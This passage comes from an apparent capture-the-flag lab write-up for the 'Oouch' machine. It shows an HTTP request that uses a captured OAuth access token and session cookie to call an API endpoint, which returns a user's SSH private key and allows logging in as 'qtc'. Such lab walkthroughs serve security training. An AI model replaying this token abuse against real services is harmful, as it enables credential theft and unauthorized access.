 <figure><img src="../../../.gitbook/assets/image (27) (3).png" alt=""><figcaption></figcaption></figure>

This `access_token` parameter is the API token we need!

### API SSH Keys

Now we can test the `/api/get_user` endpoint with our new access\_token and the seessionid.

```http
GET /api/get_ssh?access_token=O0Qwa2XObArpMZDhk3obUT4DLOgvH7 HTTP/1.1
Host: authorization.oouch.htb:8000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: csrftoken=aWzHarmWI5F3jiPsMIUB7tlpiFp0RMRAGmsWcW30NkvqWZaSiaYfT8VzwTGQ3vYc; sessionid=u46fo2dio2uyqksl1t3by906cbrcz4te
Upgrade-Insecure-Requests: 1

```

<figure><img src="../../../.gitbook/assets/image (3) (2) (4).png" alt=""><figcaption></figcaption></figure>

Now that we have access to this, we need to find the SSH key. After testing out a few endpoints, I found that `get_ssh` was the right one.

<figure><img src="../../../.gitbook/assets/image (5) (5).png" alt=""><figcaption></figcaption></figure>

Then we can just SSH in as `qtc`.&#x20;
